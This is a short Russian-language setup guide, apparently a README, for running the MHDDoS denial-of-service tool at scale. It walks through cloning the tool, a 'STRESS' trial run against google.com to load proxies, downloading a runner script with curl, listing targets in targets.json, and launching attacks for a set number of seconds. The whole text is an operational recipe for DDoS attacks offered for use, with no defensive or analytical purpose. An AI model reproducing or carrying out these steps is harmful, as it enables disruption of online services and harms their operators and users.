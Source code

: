 1. Установите на сервере MHDDoS
```
git clone https://github.com/MHProDev/MHDDoS.git
cd MHDDoS
pip install -r requirements.txt
```

2. Выполните холостой запуск для подргужения прокси
```
 python3 start.py STRESS https://google.com 0 1 0 1 1
 ```
 3. Установите jq

```
sudo apt-get update
sudo apt-get install -y jq
```

4. установите раннер
```
curl https://raw.githubusercontent.com/rxitech/k6clean/master/runner.sh > runner.sh
```

5. Создайте targets.json файл с целями

6. Запустите раннер передав файл с целями и продолжительность выполнения в секундах
```
./runner.sh targets.json 300
```
